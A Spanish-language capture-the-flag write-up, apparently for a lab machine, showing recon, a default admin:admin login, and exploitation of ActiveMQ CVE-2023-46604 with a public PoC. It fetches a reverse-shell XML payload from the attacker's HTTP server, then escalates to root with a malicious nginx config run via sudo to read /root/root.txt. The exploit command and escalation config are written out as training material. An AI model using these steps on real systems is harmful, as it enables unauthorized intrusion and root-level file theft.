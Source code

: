 Hacemos el reconocimiento de nmap:
![[Pasted image 20231124103124.png]]
![[Pasted image 20231124103141.png]]
Accedemos al puerto 80 y nos encontramos con esto:
![[Pasted image 20231124103309.png]]
Pero si ponemos admin:admin accedemos:
![[Pasted image 20231124103333.png]]
Pero si hacemos clic en este enlace, nos redirige a un panel de admin:
![[Pasted image 20231124103515.png]]
Donde vemos información sensible, como la versión 5.15 de este servicio:
![[Pasted image 20231124103527.png]]
Y si buscamos por internet, encontramos el CVE-2023-46604:
![[Pasted image 20231124104022.png]]
Buscamos una PoC en github y nos encontramos la siguiente:
https://github.com/evkl1d/CVE-2023-46604
![[Pasted image 20231124104134.png]]
Donde nos indican que vamos a necesitar subir con este exploit el fichero poc.xml:
![[Pasted image 20231124104445.png]]
Vemos las instrucciones de uso:
![[Pasted image 20231124104311.png]]
Editamos el contenido del fichero poc.xml añadiendo la reverse shell:
![[Pasted image 20231124104618.png]]
Nos ponemos a la escucha con netcat:
![[Pasted image 20231124104810.png]]
Levantamos un servidor HTTP con Python con el archivo PoC.xml:
![[Pasted image 20231124105541.png]]
Ejecutamos el exploit:
```
python3 exploit.py -i 10.10.11.243 -u http://10.10.16.7/poc.xml
```
![[Pasted image 20231124105607.png]]
Y habremos recibido la reverse shell:
![[Pasted image 20231124105621.png]]
Vemos que podemos ejecutar con root nginx:
![[Pasted image 20231124110550.png]]
Para ello, nos copiamos el fichero de configuración de nginx y lo modificamos:
```
cp /etc/nginx/nginx.conf /tmp  
mv nginx.conf pwned.conf
```
Y lo editamos añadiendo el siguiente contenido:
```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```
![[Pasted image 20231124111735.png]]
Ahora levantamos el servidor nginx cargando el nuevo fichero de configuración malicioso:
```
sudo /usr/sbin/nginx -c /tmp/hack.conf
```
![[Pasted image 20231124111822.png]]
Y ahora desde curl y especificando el puerto 1337, que fue el que indicamos antes, ya podremos acceder a cualquier directorio o archivo del sistema ya que estaríamos moviéndonos como root:
```
curl localhost:1337/root/root.txt
```
![[Pasted image 20231124111956.png]]
